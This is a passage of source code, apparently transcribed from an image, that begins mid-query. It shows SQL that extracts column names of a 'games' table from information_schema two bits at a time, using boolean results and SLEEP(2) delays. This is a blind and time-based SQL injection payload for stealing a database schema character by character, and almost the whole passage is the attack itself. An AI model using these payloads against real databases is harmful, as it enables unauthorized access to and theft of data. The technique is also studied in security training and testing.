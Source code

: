 ```sql
          LIMIT 1 OFFSET 0 -- First result
        ),
        1, -- First character
        1
      )
    )
  )&1=1 THEN 1 ELSE 0 END
) + (
  -- Extract 2nd bit through temporal result
  CASE WHEN (
    SELECT INSTR(
      'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789',
      SUBSTR(
        (
          SELECT
          DISTINCT(column_name) FROM information_schema.columns
          WHERE table_name='games'
          LIMIT 1 OFFSET 0 -- First result
        ),
        1, -- First character
        1
      )
    )
  )&2=2 THEN SLEEP(2) ELSE 0 END
);

-- Extract bits 3 & 4 of the first character of the first result
SELECT (
  -- Extract 3rd bit through true/false result
  CASE WHEN (
    SELECT INSTR(
      'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789',
      SUBSTR(
        (
          SELECT
          DISTINCT(column_name) FROM information_schema.columns
          WHERE table_name='games'
          LIMIT 1 OFFSET 0 -- First result
        ),
        1, -- First character
        1
      )
    )
  )&4=4 THEN 1 ELSE 0 END
) + (
  -- Extract 4th bit through temporal result
  CASE WHEN (
    SELECT INSTR(
      'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789',
      SUBSTR(
        (
          SELECT
          DISTINCT(column_name) FROM information_schema.columns
          WHERE table_name='games'
          LIMIT 1 OFFSET 0 -- First result
        ),
        1, -- First character
        1
      )
    )
  )&8=8 THEN SLEEP(2) ELSE 0 END
);

```